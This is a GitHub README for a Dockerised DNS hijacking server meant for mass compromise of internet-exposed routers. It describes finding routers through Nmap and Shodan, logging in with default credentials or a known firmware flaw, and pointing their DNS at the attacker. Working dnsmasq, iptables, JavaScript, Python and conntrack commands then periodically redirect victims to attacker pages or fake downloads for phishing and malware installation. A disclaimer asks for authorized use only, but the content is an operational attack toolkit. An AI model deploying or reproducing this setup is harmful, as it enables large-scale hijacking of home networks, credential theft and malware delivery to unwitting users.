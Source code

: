 [![Maintenance](https://img.shields.io/badge/Maintained-yes-green.svg)]() [![Powered by](https://img.shields.io/badge/ubuntu-v16.04-blue.svg)]() [![Docker](https://img.shields.io/badge/DockerImage-v1.0.1-green.svg)](https://hub.docker.com/repository/docker/benchaliah/poseidondns)

## Disclaimer

This tutorial is for informational and educational purposes only. I believe that ethical hacking, information security and cyber security should be familiar subjects to anyone using digital information and computers. And I urge anyone who would use this tool to only use it on targets he/she is authorized to access, I hold no responsability in one used it for any unlawful activity.


## About

* This is a tool that can offer a cross-platform (Android, Windows, iOS ... etc) remote and automated penetration, can be used for massive automated social engineering, randomware or more advanced pentests


[DNS hijacking](https://en.wikipedia.org/wiki/DNS_hijacking) is often used for phishing, in order to obtain sensitive information such as credentials for social media and bank accounts, but more advanced exploitation allows for more critical access. Let take the following scenario for instance, if a hacker gain access to the DNS settings in a router, he can in theory then control the entire flow of the target's internet connections, therefore, he can install malwares on the target's devices (smartphone, computer) using social engineering (fake updates, because normal updates done automatically by windows, android or otherwise are almost exlucsivly done via SSL which would require a signed certificate) or some vulnerability in the software already installed on the target's device. However, this process require investing significant time analyzing each target indivually and trying to gain more access.


## Setup

> Must be root

* __Method 1:__

Clone this repo then :
```
$ docker build -t poseidon .
$ docker run -it  --privileged --cap-add=ALL -v /lib/modules:/lib/modules -p 81:80 -p 5353:53 poseidon
```

* __Method 2:__

Pull from docker :
```
$ docker pull benchaliah/poseidondns
$ docker run -it  --privileged --cap-add=ALL -v /lib/modules:/lib/modules -p 81:80 -p 5353:53 benchaliah/poseidondns
```

You can test the server using `dig @dockercontainerIP whateverDomain`, or by setting dhcp in a device (router or otherwise) to `dockercontainerIP`


## Approach

One of ways this tools can be used in, is using Nmap to scan massive IP ranges looking for routers that are exposed to WAN, most of them usually still hold the default login (example: user=admin pass=admin) then changing the DNS address in the DHCP settings, this process can be easily automated using a simple Python script and by using http requests or a Browser automation library (example: Selenium/Chromedriver-FirefoxDriver) you can automatically gain access to thousands of routers, there is also [Shodan](http://shodan.io) that can offer huge numbers of active IPs of routers that are exposed and you can even uses more filters to get only routers that uses a specific firmware/version on which you have a way to access even without default credentials (example : Millions of routers around the world uses Rompager/4.07 a firmware that have a critical vulnerability called [Misfortune Cookie](https://github.com/BenChaliah/MIPS-CVE-2014-9222)).
However, setting thousands of routers towards your DNS similtanously raises another question, how much resources would the server require? The server must respond to the millions of requests each minutes withing few miliseconds for each request, so that the targets wouldn't notice a difference in latency in their internet connection, one of the tools known in the cyber security community for DNS hijacking called DNSChef, a tool that is built on python, which makes it very useful in the case of small sample testing but highly unreliable when you test it against much bigger samples giving high failure rate. On the other hand there's dnsmasq which is written in C (making it much much faster with very little resources) and it offers DNS caching, a DHCP server and more. But since it was not intended for DNS Hijacking it's not quite configurable for such use.

However, in this analysis I'll be explain how did I used it and other low level tools to make a server that even with very low specs (Example : Elastic computer hosted on AWS or gCloud 1 vcpu, 1 Gb of memory) can offer for a huge number of targets a very low latency that compares to that of known public DNS such as `8.8.8.8`, or even supersede it depending on the location of the server and the targets.


### Tools
```
 > dnsmasq 2.79 (or later)
 > Apache/2.4.29 (Ubuntu)
 > conntrack v1.4 (or later)
 > iptables v1.6.1 (or later)
 > python2.7
 > screen version 4.06 (or later)
```

## Summary

* Component 1:

You start two (or more depending on the exploitation) instances of dnsmasq and bind them to different ports

```
$ dnsmasq --no-hosts -p 531 --max-cache-ttl=0
$ dnsmasq --no-hosts --address=/#/yourDNSIP  --server=/.youWebsiteDomain.tld/# -p 532 --max-cache-ttl=0
```

the first one in a regular resolver in order to provide the real DNS records, and the second one will always return an `A record` with the IP address of the server you deploy this docker on except for the domain (or domains, by adding `--server=/.domain2/#`) to which you want to force the targets

* Component 2:

We will be adding the some rules to `NAT` table, the idea is to forward connections comming through port 53 (UDP and TCP, but mainly the former) to either of the dnsmasq instances, and the way to do so is by putting the rule in __PREROUTING__ chain specification, first we'll forward all connections towards the DNS that would provide the __fake records__

```
$ iptables -t nat -A PREROUTING -p tcp -m tcp --dport 53 -j REDIRECT --to-port 532
$ iptables -t nat -A PREROUTING -p udp -m udp --dport 53 -j REDIRECT --to-port 532
```

after the target get redirecred to the domain you which or download the software you wants, you need to trigger the process that will add an exception for the associated __REMOTE_ADDR__ in the port forwarding rules. Here's an example using Javascript, implemented in your domain page

```javascript
<script type="text/javascript">
	if (document.visibilityState == "visible") {
		var xhttp = new XMLHttpRequest();
		xhttp.open("GET", "http://myDNSIP/cgi-bin/route", true);
		xhttp.send();
	}
</script>
```

the previous script will trigger the execution of a Python script inside cgi-bin. Now the script does multiple things but all are very lightweight, first create an empty file called __{REMOTE_ADDR}__ inside a folder called __IPS__, for instance, if the request came from `174.123.23.54` their will be a file called `174.123.23.54` inside IPS, then it'll generate a bash script that will be executed and delete itself when finished (by adding this command `rm -f -- "$0"` at the end). the bash contains also multiple iptables rules, which are the exceptions for all the targets that already went through the process:

```python
for i in os.listdir("./ips/") + [os.environ['REMOTE_ADDR']]:
	rules_str += "-A PREROUTING -s %s/32 -p udp -m udp --dport 53 -j REDIRECT --to-ports 531\n"%i

# Then save the exceptions in a file inside a folder
rules_path = "./tmp/script_%d.rules"%rand_name
with open(rules_path, "w") as f:
	f.write(base_query_str.replace("{loop_str}", rules_str))
```

An independant Python script running in a screen must update iptables rules every few miliseconds through 

`cat ./tmp/script_{rand_name}.rules | iptables-restore`

In order to improve efficiency and avoid running the same exceptions multiple times the independ Python script (or any other approach to loop this command) will be running:

`cat $(ls -1t /var/www/cgi-bin/tmp/*.rules | head -1) | iptables-restore`

the first part of the command will read the latest created rules file which will hold the previously generated rules without duplicates then pipe it to `iptables-restore`.



* Component 3:

Let assume you want the targets to get redirected to your website/domain periodically (the period can be constant or variate), this is were `runScreen1.py` comes to play, you also run this script in an independant screen, the script will run:

> rand_int holds the same value as the one in the file /var/www/cgi-bin/rand_ref which can variate or be constant (depending on your exploitation)

`$ cd /var/www/cgi-bin/ips && find * -mmin +{rand_int} -exec  conntrack -D -s {} > /dev/null \; && find * -mmin +{rand_int} -exec rm -f {} \; && cd /root`

Let now disect this command, `find * -mmin +{rand_int} -exec` uses the filesystem to select only the files (here IPs) that where created/modified at least __{rand_int}__ minutes ago, for instance if you want to redirect the targets each hour you just need to put 60 inside `/var/www/cgi-bin/rand_ref` file and this will remove the exception from the port forwarding rules by deleting the IP from `cgi-bin/ips`, by consequence the next rules file generated by `cgi-bin/route` will not be containing an exception rule for this IP. Now `-exec` will pipe the listed IPs fiting the criteria to another command `conntrack`.


* Component 2-3 (__conntrack__):

Connection tracking is a core feature of the Linux kernel's networking stack. It allows the kernel to keep track of all logical network connections or flows, and thereby identify all of the packets which make up each flow so they can be handled consistently together. However, as much as this feature allows for a smooth flow of packets at a very low level, for the purpose of this exploitation it has a small down side that can easily be dealt with (I wouldn't say a down side because connection tracking is essential for a DNS server low latency and efficiency), when ever you update the iptables rules the already established connections will not abide by the new rules which is a big problem in this specific situation, because what we want is for the target to be switched between different dnsmasq instances instantly after a specific trigger (like http request to `cgi-bin/route`).

> `conntrack -D -s`

This command will flush the existing expectations (connection trackers) based on the source address, which by consequence will force the kernel to establish a new connection based on the updated rules. We are running this command in bash generated by `cgi-bin/route` to switch the target between the fake DNS to the real one, and vice versa using `runScreen1.py`



> * I'll soon be adding a video showing how the server works, and a benchmark.
